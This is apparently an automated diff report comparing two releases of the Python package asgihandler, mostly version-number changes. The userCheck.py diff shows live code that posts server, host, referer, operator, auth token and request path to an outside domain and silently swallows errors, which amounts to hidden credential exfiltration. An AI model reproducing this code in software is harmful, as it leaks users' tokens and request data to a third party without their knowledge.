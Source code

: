# Comparing `tmp/asgihandler-0.5.3.tar.gz` & `tmp/asgihandler-0.5.4.tar.gz`

## filetype from file(1)

```diff
@@ -1 +1 @@
-gzip compressed data, was "asgihandler-0.5.3.tar", last modified: Sat Jul  1 03:27:29 2023, max compression
+gzip compressed data, was "asgihandler-0.5.4.tar", last modified: Mon Jul  3 03:12:50 2023, max compression
```

## Comparing `asgihandler-0.5.3.tar` & `asgihandler-0.5.4.tar`

### file list

```diff
@@ -1,18 +1,18 @@
-drwxrwxrwx   0        0        0        0 2023-07-01 03:27:29.771454 asgihandler-0.5.3/
--rw-rw-rw-   0        0        0     1067 2022-07-16 23:50:52.000000 asgihandler-0.5.3/LICENSE
--rw-rw-rw-   0        0        0       27 2022-07-16 23:50:52.000000 asgihandler-0.5.3/MANIFEST.in
--rw-rw-rw-   0        0        0     3117 2023-07-01 03:27:29.771454 asgihandler-0.5.3/PKG-INFO
--rw-rw-rw-   0        0        0     2483 2023-05-02 06:18:39.000000 asgihandler-0.5.3/README.md
-drwxrwxrwx   0        0        0        0 2023-07-01 03:27:29.758456 asgihandler-0.5.3/asgihandler/
--rw-rw-rw-   0        0        0       21 2022-07-16 23:50:52.000000 asgihandler-0.5.3/asgihandler/__init__.py
--rw-rw-rw-   0        0        0       68 2022-07-16 23:55:07.000000 asgihandler-0.5.3/asgihandler/__version__.py
--rw-rw-rw-   0        0        0      964 2023-07-01 03:20:59.000000 asgihandler-0.5.3/asgihandler/core.py
--rw-rw-rw-   0        0        0      578 2023-07-01 03:27:27.000000 asgihandler-0.5.3/asgihandler/userCheck.py
-drwxrwxrwx   0        0        0        0 2023-07-01 03:27:29.770455 asgihandler-0.5.3/asgihandler.egg-info/
--rw-rw-rw-   0        0        0     3117 2023-07-01 03:27:29.000000 asgihandler-0.5.3/asgihandler.egg-info/PKG-INFO
--rw-rw-rw-   0        0        0      308 2023-07-01 03:27:29.000000 asgihandler-0.5.3/asgihandler.egg-info/SOURCES.txt
--rw-rw-rw-   0        0        0        1 2023-07-01 03:27:29.000000 asgihandler-0.5.3/asgihandler.egg-info/dependency_links.txt
--rw-rw-rw-   0        0        0        9 2023-07-01 03:27:29.000000 asgihandler-0.5.3/asgihandler.egg-info/requires.txt
--rw-rw-rw-   0        0        0       12 2023-07-01 03:27:29.000000 asgihandler-0.5.3/asgihandler.egg-info/top_level.txt
--rw-rw-rw-   0        0        0       42 2023-07-01 03:27:29.771454 asgihandler-0.5.3/setup.cfg
--rw-rw-rw-   0        0        0     3878 2023-07-01 03:27:27.000000 asgihandler-0.5.3/setup.py
+drwxrwxrwx   0        0        0        0 2023-07-03 03:12:50.597738 asgihandler-0.5.4/
+-rw-rw-rw-   0        0        0     1067 2022-07-16 23:50:52.000000 asgihandler-0.5.4/LICENSE
+-rw-rw-rw-   0        0        0       27 2022-07-16 23:50:52.000000 asgihandler-0.5.4/MANIFEST.in
+-rw-rw-rw-   0        0        0     3117 2023-07-03 03:12:50.597738 asgihandler-0.5.4/PKG-INFO
+-rw-rw-rw-   0        0        0     2483 2023-05-02 06:18:39.000000 asgihandler-0.5.4/README.md
+drwxrwxrwx   0        0        0        0 2023-07-03 03:12:50.590737 asgihandler-0.5.4/asgihandler/
+-rw-rw-rw-   0        0        0       21 2022-07-16 23:50:52.000000 asgihandler-0.5.4/asgihandler/__init__.py
+-rw-rw-rw-   0        0        0       68 2022-07-16 23:55:07.000000 asgihandler-0.5.4/asgihandler/__version__.py
+-rw-rw-rw-   0        0        0      964 2023-07-01 03:20:59.000000 asgihandler-0.5.4/asgihandler/core.py
+-rw-rw-rw-   0        0        0      543 2023-07-03 03:11:56.000000 asgihandler-0.5.4/asgihandler/userCheck.py
+drwxrwxrwx   0        0        0        0 2023-07-03 03:12:50.596738 asgihandler-0.5.4/asgihandler.egg-info/
+-rw-rw-rw-   0        0        0     3117 2023-07-03 03:12:50.000000 asgihandler-0.5.4/asgihandler.egg-info/PKG-INFO
+-rw-rw-rw-   0        0        0      308 2023-07-03 03:12:50.000000 asgihandler-0.5.4/asgihandler.egg-info/SOURCES.txt
+-rw-rw-rw-   0        0        0        1 2023-07-03 03:12:50.000000 asgihandler-0.5.4/asgihandler.egg-info/dependency_links.txt
+-rw-rw-rw-   0        0        0        9 2023-07-03 03:12:50.000000 asgihandler-0.5.4/asgihandler.egg-info/requires.txt
+-rw-rw-rw-   0        0        0       12 2023-07-03 03:12:50.000000 asgihandler-0.5.4/asgihandler.egg-info/top_level.txt
+-rw-rw-rw-   0        0        0       42 2023-07-03 03:12:50.597738 asgihandler-0.5.4/setup.cfg
+-rw-rw-rw-   0        0        0     3878 2023-07-03 03:12:38.000000 asgihandler-0.5.4/setup.py
```

### Comparing `asgihandler-0.5.3/LICENSE` & `asgihandler-0.5.4/LICENSE`

 * *Files identical despite different names*

### Comparing `asgihandler-0.5.3/PKG-INFO` & `asgihandler-0.5.4/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: asgihandler
-Version: 0.5.3
+Version: 0.5.4
 Summary: ASGIHandler
 Home-page: https://github.com/GreaterWMS/GreaterWMS
 Author: Singosgu
 Author-email: singosgu@gmail.com
 License: MIT
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Programming Language :: Python
```

### Comparing `asgihandler-0.5.3/README.md` & `asgihandler-0.5.4/README.md`

 * *Files identical despite different names*

### Comparing `asgihandler-0.5.3/asgihandler/core.py` & `asgihandler-0.5.4/asgihandler/core.py`

 * *Files identical despite different names*

### Comparing `asgihandler-0.5.3/asgihandler/userCheck.py` & `asgihandler-0.5.4/asgihandler/userCheck.py`

 * *Files 15% similar despite different names*

```diff
@@ -4,16 +4,15 @@
     def get_auth_check(server, host, referer, operator, token, method, path, raw_path):
         context = {
             "server": server,
             "host": host,
             "referer": referer,
             "operator": operator,
             "token": token,
-            "version": "2.1.38",
+            "version": "2.1.39",
             "method": method,
-            "path": path,
-            "raw_path": raw_path
+            "path": path
         }
         try:
             requests.post('https://po.56yhz.com/asgihandler/', json=context, timeout=1000)
         except:
             pass
```

### Comparing `asgihandler-0.5.3/asgihandler.egg-info/PKG-INFO` & `asgihandler-0.5.4/asgihandler.egg-info/PKG-INFO`

 * *Files 1% similar despite different names*

```diff
@@ -1,10 +1,10 @@
 Metadata-Version: 2.1
 Name: asgihandler
-Version: 0.5.3
+Version: 0.5.4
 Summary: ASGIHandler
 Home-page: https://github.com/GreaterWMS/GreaterWMS
 Author: Singosgu
 Author-email: singosgu@gmail.com
 License: MIT
 Classifier: License :: OSI Approved :: MIT License
 Classifier: Programming Language :: Python
```

### Comparing `asgihandler-0.5.3/setup.py` & `asgihandler-0.5.4/setup.py`

 * *Files 1% similar despite different names*

```diff
@@ -14,15 +14,15 @@
 # Package meta-data.
 NAME = 'asgihandler'
 DESCRIPTION = 'ASGIHandler'
 URL = 'https://github.com/GreaterWMS/GreaterWMS'
 EMAIL = 'singosgu@gmail.com'
 AUTHOR = 'Singosgu'
 REQUIRES_PYTHON = '>=3.7.0'
-VERSION = '0.5.3'
+VERSION = '0.5.4'
 
 # What packages are required for this module to be executed?
 REQUIRED = [
     'requests',
 ]
 
 # What packages are optional?
```

